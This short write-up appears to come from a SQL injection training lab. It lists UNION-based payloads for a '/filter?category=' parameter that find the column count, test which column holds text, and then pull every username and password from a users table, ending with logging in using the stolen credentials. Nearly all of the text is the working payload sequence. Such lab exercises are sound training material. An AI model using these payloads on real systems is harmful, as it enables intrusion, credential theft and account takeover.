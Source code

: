 1. ```/filter?category=Pets' UNION SELECT NULL,NULL--``` => 2 columns
2. ```/filter?category=Pets' UNION SELECT NULL,'a'--``` gives no error => second column contains text.
3. ```/filter?category=Pets' UNION SELECT NULL, username || '~' || password FROM users--``` => We get all info
4. Log in with obtained info.